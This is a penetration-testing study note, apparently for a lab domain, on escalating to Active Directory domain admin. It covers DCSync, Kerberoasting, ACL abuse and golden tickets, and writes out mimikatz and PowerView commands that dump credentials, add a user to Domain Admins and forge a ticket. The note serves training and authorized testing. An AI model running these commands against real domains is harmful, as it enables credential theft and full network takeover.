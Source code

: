 ```yaml
---
dg-publish: true
---
```


_Goal: Gain full administrative control of the Active Directory domain._

---

### **Objectives**

- Identify domain admin accounts or paths to them
    
- Capture or forge credentials or Kerberos tickets
    
- Use misconfigurations or attack chains to obtain domain-level privileges
    

---

### **Mermaid Diagram**

```mermaid
graph TD
    A[Multiple Compromised Hosts] --> B[Identify DA Paths via BloodHound or Manual Analysis]
    B --> C[Exploit Path: Credential, ACL, or Kerberos Attack]
    C --> D[Capture or Forge Domain Admin Token or Ticket]
    D --> E[Access Domain Controller or Critical Infrastructure]
    E --> F[Perform DCSync or Take Over Domain]
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|DCSync Attack|secretsdump.py, mimikatz lsadump::dcsync|Requires Replication rights or access to domain controller|
|Kerberoasting|GetUserSPNs.py, Get-DomainUser -SPN, hashcat|Crackable service account ticket leads to privileged access|
|AS-REP Roasting|GetNPUsers.py, Rubeus asreproast|Crack offline, works for preauth-disabled users|
|ACL Attack (GenericAll, WriteDACL)|PowerView, Set-DomainObject, Add-DomainGroupMember|Abuse rights to modify privileged group membership|
|ExtraSID / SID History Abuse|mimikatz, kerberos::golden, SID injection|Forge ticket with injected SID|
|Token Impersonation|Incognito, mimikatz token::elevate, Invoke-TokenManipulation|Use stolen token from DA session|
|Golden Ticket Attack|mimikatz kerberos::golden|Requires domain SID and krbtgt NTLM hash|
|Overpass-the-Hash|Rubeus, mimikatz sekurlsa::pth|Inject TGT from NTLM hash for DA account|

  

---

### **Example: DCSync via Mimikatz**

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:administrator
```

  

---

### **Example: Add User to Domain Admins via ACL Abuse**

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'hacker' -Credential $Cred -Verbose
```

  

---

### **Example: Golden Ticket Forgery**

```
kerberos::golden /user:hacker /domain:inlanefreight.local /sid:<domain_sid> /krbtgt:<ntlm> /ptt
```

  

---

### **Pro Tips**

- BloodHound is invaluable for identifying hidden DA paths (via sessions, RBCD, ACLs)
    
- After obtaining DA, run DCSync to extract all domain hashes
    
- Clean up or **rotate krbtgt** after testing golden tickets to prevent long-term compromise
    
- Dump **GPOs, DNS zones, SYSVOL**, and scan **privileged scripts** post-DA
    

